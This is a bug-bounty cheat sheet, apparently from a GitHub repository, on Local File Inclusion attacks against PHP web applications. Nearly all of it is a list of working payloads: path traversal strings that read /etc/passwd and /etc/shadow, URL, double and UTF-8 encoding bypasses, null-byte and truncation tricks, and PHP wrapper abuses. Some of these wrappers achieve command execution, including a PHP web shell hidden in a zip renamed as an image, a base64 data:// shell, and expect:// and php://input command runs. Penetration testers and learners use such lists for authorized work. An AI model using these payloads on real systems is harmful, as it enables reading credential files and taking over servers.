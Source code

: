 ## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Local%20File%20Inclusion.md#introduction)

Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Local%20File%20Inclusion.md#where-to-find)

- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Local%20File%20Inclusion.md#how-to-exploit)

1. Basic payload

```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding

```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding

```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)

```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder

```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data

```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect

```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input

```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Local%20File%20Inclusion.md#references)

- [Aptive](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)

